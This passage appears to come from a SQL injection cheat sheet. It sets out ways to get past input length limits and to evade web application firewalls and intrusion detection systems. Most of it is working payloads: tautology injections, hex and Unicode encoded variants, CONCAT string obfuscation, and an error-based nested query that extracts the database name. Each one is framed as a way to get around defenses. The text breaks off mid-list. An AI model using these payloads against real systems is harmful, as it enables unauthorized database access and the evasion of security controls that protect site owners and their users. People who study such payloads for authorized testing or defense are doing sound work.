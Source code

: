 - **Using Shortened Payloads:** Shortening the payload to the minimum necessary length can evade input length restrictions while still achieving the injection.

```
' OR '1'='1 --
```

- **Using Multiple Short Injections:** Breaking the payload into multiple short injections can sometimes bypass restrictions that only allow a single injection attempt.

```
' OR 1=1 --
' OR 1=2 --
```

- **Using Subqueries:** Using subqueries can often bypass length restrictions while still performing a valid injection.

```
' OR EXISTS(SELECT 1) --
```

## Bypassing WAFs and IDS/IPS
Craft payloads that evade detection by Web Application Firewalls (WAFs) and Intrusion Detection/Prevention Systems (IDS/IPS).

- **Using Hexadecimal Encoding:** Using hexadecimal encoding (`0x31` for `'1'`) can evade filters that do not properly decode hex values.

```
' OR 0x31=0x31 --

SELECT * FROM users WHERE username = 0x61646d696e OR '1'='1';
```

- **Unicode Encoding:** Using `N''` for Unicode strings can sometimes bypass filters that expect plain ASCII characters.

```
SELECT * FROM users WHERE username = N'admin' OR N'1' = N'1';
```

- **Using Concatenation with SQL Functions:** Concatenating strings using `CONCAT()` can bypass filters looking for specific sequences like `'1=1'`.

```
' OR CONCAT('a','b')='ab' --

SELECT * FROM users WHERE username = CONCAT('ad', 'min') OR '1'='1';
```

- **Using Nested Queries:** Complex nested queries can confuse WAFs that are not designed to parse multi-level SQL logic.

```
' OR (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT database()), 0x3a, FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) a) --
```

- **Using Alternative Keywords:** Some WAFs block the `UNION` keyword. Using `UNION ALL` instead can bypass these filters.
